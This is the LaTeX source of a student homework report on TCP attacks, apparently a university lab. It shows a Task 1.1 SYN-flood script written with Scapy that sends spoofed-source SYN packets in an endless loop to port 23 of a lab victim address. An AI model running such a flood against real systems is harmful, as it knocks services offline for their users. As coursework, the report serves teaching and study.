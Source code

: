 \documentclass[12pt]{article}
\newcommand{\PLtitle}{\setlength{\parindent}{0pt}
\begin{center}

  \huge{\textbf{Homework \Lab: \Ltitle\\}}
  \normalsize 

  CSE 3063 \\
  Date: \date\\
  Name: \author\\
  


\end{center}
}
\def\Lab{4}
\def\Ltitle{TCP Attacks}
\def\author{Kassidy Maberry}
\def\date{2025/04/14}
\begin{document}
\PLtitle

\section*{Task 1}

\subsection*{Task 1.1}
For this task we will need to determine first what port to connect to thus we will perform the following command.\\

\begin{figure}[!ht]
  \includegraphics*[scale=.5]{Task1getPort.png}
\end{figure}

We will be connecting with port 23, we know that our victum machine can be connected with the ip address 10.9.0.5. We will need 
to modify our sript in order to perform the attack on the machine. Making the modfications we will have the following script. 
This can be viewed in the file syn.py.\\

\begin{lstlisting}
  #!/bin/env python3
  from scapy.all import IP, TCP, send
  from ipaddress import IPv4Address
  from random import getrandbits
  ip = IP(dst="10.9.0.5")
  tcp = TCP(dport=23, flags="S")
  pkt = ip/tcp
  while True:
      pkt[IP].src = str(IPv4Address(getrandbits(32))) # source iP
      pkt[TCP].sport = getrandbits(16) # source port
      pkt[TCP].seq = getrandbits(32) # sequence number
      send(pkt, verbose = 0)
\end{lstlisting}

Now we can perform our attack.

\begin{figure}[!ht]
  \includegraphics*[scale=.3]{Task1.1InitalAttack.png}
\end{figure}
\end{document}
